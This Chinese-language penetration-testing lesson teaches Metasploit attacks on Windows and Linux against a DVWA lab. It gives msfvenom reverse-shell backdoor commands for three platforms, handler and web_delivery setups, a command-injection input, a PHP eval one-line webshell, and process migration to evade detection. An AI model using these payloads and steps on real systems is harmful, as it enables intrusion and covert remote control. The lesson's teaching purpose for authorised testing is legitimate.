

# 🛡️ 课程P51：第15天 - Metasploit攻击Windows与Linux实战教程

在本节课中，我们将学习如何使用Metasploit框架对Windows和Linux系统进行实战攻击。课程将涵盖生成后门、建立监听、利用漏洞获取Shell以及后渗透阶段的基本操作。我们将通过具体实例，演示从发现漏洞到最终控制目标系统的完整流程。

---

## 📦 概述：Metasploit攻击的基本思路

Metasploit是一个功能强大的渗透测试框架，支持全平台攻击。其核心攻击思路通常包含以下几个步骤：首先，寻找目标系统的漏洞点；其次，利用`msfvenom`生成针对性的后门程序（木马）；然后，将后门程序上传到靶机并诱使其执行；最后，在攻击机上开启监听，等待靶机连接，从而获得一个`meterpreter`会话，实现对目标系统的控制。

---

## 🛠️ 生成后门：使用msfvenom

`msfvenom`是`msfpayload`和`msfencode`的组合工具，用于生成攻击载荷（Payload）并进行编码加密，以绕过杀毒软件或IDS/IPS的检测。它本质上是一个生成远控木马的软件。



以下是`msfvenom`的一些基本参数：
*   `-p`: 指定攻击载荷（Payload）。
*   `-l`: 列出可用的编码器（Encoder）或载荷。
*   `-e`: 指定编码或加密方式。
*   `-f`: 指定输出文件的格式。
*   `-a`: 指定系统架构（如`x86`, `x64`, `mips`）。
*   `--platform`: 指定目标操作系统平台（如`windows`, `linux`, `osx`）。
*   `-i`: 设置编码次数。
*   `-x`: 指定一个可执行文件作为模板，用于伪装木马。

**注意**：编码次数多并不绝对代表能更好地绕过杀软。现代杀毒软件主要依靠特征码识别，单纯增加编码次数效果有限，常需要结合其他免杀技术。



### 生成不同平台后门的示例







以下是针对不同平台生成反向TCP连接后门的命令示例：


**1. 生成Linux反向TCP后门**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o shell.elf
```
*   `-p linux/x86/meterpreter/reverse_tcp`: 指定为Linux x86架构的Meterpreter反向TCP载荷。
*   `LHOST`和`LPORT`: 指定攻击机的IP和监听端口。
*   `-f elf`: 输出格式为Linux可执行文件。
*   `-o shell.elf`: 输出文件名为`shell.elf`。

**2. 生成Windows反向TCP后门**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -f exe -o hello.exe
```




**3. 生成macOS反向TCP后门**
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=6666 -f macho -o shell.macho
```






---



## 📡 开启监听与接收会话


生成木马后，需要在攻击机上开启监听，等待靶机执行木马后连接回来。

上一节我们介绍了如何生成后门木马，本节中我们来看看如何在Metasploit中配置监听器来接收反弹的Shell。


1.  启动Metasploit控制台：`msfconsole`
2.  使用`exploit/multi/handler`模块作为载荷处理器。
3.  设置与生成木马时**完全一致**的Payload、LHOST和LPORT。
4.  执行监听。

具体操作如下：
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.123.128
set LPORT 5555
run
# 或者使用 exploit -j 将监听任务放入后台
```
执行`run`后，模块会在指定端口开始监听。当靶机上的木马被执行时，攻击机便会收到一个`meterpreter`会话。

---

## 🌐 利用Web Delivery进行无文件攻击

当通过Web漏洞（如命令执行）获得了部分命令执行权限，但尚未获得完整Shell时，可以使用`web_delivery`模块。该模块能快速与受害者主机建立会话，且其代码在内存中执行，不写入磁盘，有利于绕过检测。

它支持PHP、Python、PowerShell等多种脚本。

以下是利用`web_delivery`通过Python获取Meterpreter会话的示例：
```bash
use exploit/multi/script/web_delivery
set TARGET 0 # 设置目标为Python
set PAYLOAD python/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 5666
run
```
执行后会生成一段Python代码。将这段代码复制到存在命令执行漏洞的Web页面中执行，攻击机即可收到`meterpreter`会话。


**注意**：使用PowerShell时容易被杀毒软件拦截，通常需要配合混淆技术。


---




## 🔄 分段与非分段Payload的区别




在Metasploit中，Payload分为分段（Staged）和非分段（Stageless）两种，理解其区别对实战很重要。


*   **非分段Payload** (如 `windows/meterpreter_reverse_tcp`)：
    *   是一个完整的二进制文件，包含了Meterpreter的所有必要部分。
    *   **优点**：功能完整，连接稳定。
    *   **缺点**：体积较大，容易被查杀。
    *   类似于WebShell中的“大马”。




*   **分段Payload** (如 `windows/meterpreter/reverse_tcp`)：
    *   分为多个阶段。第一阶段（Stager）仅负责建立网络连接，然后下载并执行第二阶段（Stage）的完整Meterpreter代码。
    *   **优点**：初始文件体积小，隐蔽性稍好。
    *   **缺点**：连接稳定性依赖于网络，且需额外传输数据。
    *   类似于WebShell中的“小马”，需要管理工具配合。




选择哪种取决于目标环境，如上传文件大小限制、网络稳定性等。

---

## 🎯 实战攻击Windows实例

本节我们将通过一个模拟的DVWA靶场，演示利用命令执行漏洞获取Meterpreter会话的完整过程。

### 方法一：通过命令执行漏洞结合Web Delivery





1.  **信息收集**：使用Nmap扫描目标，发现开放80端口（Web服务）和445端口等。
    ```bash
    nmap -sV -T4 目标IP
    ```
2.  **漏洞发现与利用**：访问目标Web站点（如DVWA），找到命令执行漏洞模块。在输入框尝试命令拼接，确认存在命令执行漏洞，例如输入 `127.0.0.1 & whoami`。
3.  **使用Web Delivery**：按照上一节所述，配置`web_delivery`模块（选择Python Target），生成攻击代码。
4.  **执行攻击**：将生成的Python代码通过Web命令执行漏洞提交。例如，在DVWA的命令执行框内输入：`127.0.0.1 & [生成的python代码]`。
5.  **获取会话**：提交后，在Metasploit中成功收到`meterpreter`会话。


### 方法二：通过文件上传漏洞获取WebShell

1.  **发现上传点**：通过目录扫描或其他方式，发现网站存在文件上传功能，或者存在允许写入文件的漏洞（如ThinkPHP 5.x远程命令执行漏洞）。
2.  **上传WebShell**：利用漏洞上传一个一句话木马文件（如`shell.php`，内容为`<?php @eval($_POST[‘cmd’]);?>`）。
3.  **连接WebShell**：使用中国菜刀、蚁剑等WebShell管理工具连接上传的木马文件。
4.  **上传并执行Metasploit木马**：通过WebShell的上传功能，将之前用`msfvenom`生成的Windows后门程序（如`hello.exe`）上传到靶机可写可执行目录（如`C:\`或`/tmp`）。
5.  **通过WebShell执行木马**：在WebShell的虚拟终端中，执行命令 `start hello.exe` 或直接 `hello.exe`。
6.  **接收Meterpreter**：在攻击机的`multi/handler`监听器中，成功接收到来自靶机的`meterpreter`会话。





---





## 🕵️ 后渗透技巧：进程迁移与持久化








成功获得Meterpreter会话后，为了维持访问并避免被管理员发现，需要进行一些后渗透操作。


### 进程迁移


刚获得的Meterpreter会话通常关联着一个独立的进程（如`hello.exe`），容易被任务管理器发现并结束。我们需要将其迁移到系统正常进程（如`svchost.exe`, `php-cgi.exe`, `httpd.exe`）中。

操作步骤如下：
1.  获取当前进程ID：`getpid`
2.  查看系统进程列表：`ps`
3.  选择一个稳定且具有合适权限的进程进行迁移（高权限可迁移至低权限进程）：`migrate <目标进程PID>`
例如，迁移到Apache进程：
```bash
getpid # 假设当前PID为4512
ps # 查找httpd或php相关进程，假设PID为3996
migrate 3996
getpid # 再次确认，PID应已变为3996
```
迁移后，即使原木马文件进程被结束，Meterpreter会话仍会依附在新的宿主进程中继续运行。





### 持久化（本节简要提及）

为了在系统重启后仍能保持访问，可以考虑进行持久化操作，例如将后门写入注册表启动项、计划任务等。但请注意，这些操作同样可能被安全软件检测。Metasploit提供了`persistence`模块，但使用时需谨慎。

---

## 📝 总结

本节课我们一起学习了使用Metasploit框架进行实战攻击的核心流程：
1.  使用`msfvenom`生成针对不同平台和需求的攻击载荷。
2.  利用`exploit/multi/handler`模块开启监听，接收反弹的Shell。
3.  掌握了通过`web_delivery`进行无文件攻击的技巧。
4.  理解了分段与非分段Payload的区别与应用场景。
5.  通过DVWA靶场实例，演练了利用Web漏洞（命令执行、文件上传）获取Meterpreter会话的完整过程。
6.  学习了后渗透阶段关键的**进程迁移**技术，以增强会话的隐蔽性和稳定性。


整个流程是渗透测试的基础，后续更复杂的免杀、内网穿透、横向移动等技术都是在此框架上的延伸和深化。请务必在授权环境下多加练习，熟悉每个环节。